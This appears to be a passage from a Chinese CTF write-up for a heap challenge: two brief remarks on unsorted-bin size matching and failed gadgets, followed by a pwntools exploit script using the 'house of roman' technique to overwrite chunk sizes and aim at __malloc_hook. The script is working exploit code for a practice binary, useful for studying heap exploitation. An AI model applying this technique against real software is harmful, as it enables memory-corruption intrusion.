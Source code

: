 需要注意的是，unsortbin触发用的malloc(size)需要和前面溢出的chunk的size保持一致，不然malloc会crash。

不过貌似env问题，导致所有gadget无效。。有点可惜，要结合realloc的话，在*当前条件*下就比较麻烦了。。

EXP

```python
#!/usr/bin/python
from pwn import *

p=process("./timu",env={"LD_PRELOAD":"libc-2.23.so"})
#p=remote("111.198.29.45",33878)
#context.log_level='Debug'
context(arch='amd64', os='linux')
#gdb.attach(p)


r  = lambda data	:p.recv(data)
ru = lambda data 	:p.recvuntil(data)
s  = lambda data	:p.send(data)
sl = lambda data	:p.sendline(data)

def malloc(size,data):
	ru("Your choice :")
	sl(str(1))
	ru("Size:")
	sl(str(size))
	ru("Data:")
	s(data)
def free(index):
	ru("Your choice :")
	sl(str(2))	
	ru("Index:")
	sl(str(index))
def edit(index,size,data):
	ru("Your choice :")
	sl(str(3))
	ru("Index:")
	sl(str(index))
	ru("Size:")
	sl(str(size))
	ru("Data:")
	s(data)

#malloc(0x20,"O")	#
malloc(0x80,"house of roman")#0

malloc(0x20,"O"*0x10)	#1
malloc(0x40,"A"*0x10)	#2
malloc(0x65,"B"*0x10)	#3
malloc(0x10,"C"*0x10)	#4

#malloc_hook control
edit(1,0x30,"\x00"*0x20+p64(0)+p64(0xc1)) # size 0x51 ->0x51+0x70
free(3)
free(2)
malloc(0x40,"X"*0x10)  #5

edit(2,0x52,"\x01"*0x40+p64(0)+p64(0x71)+"\xed\x1a")
#malloc(0x65,"\x78\x1b") #fix unsortbin #6	
malloc(0x65,"DD") 
sh=0x601005
#malloc(0x65,"D"*0x3+p64(0)*2)#+p64(sh))
malloc(0x65,"D") #7

```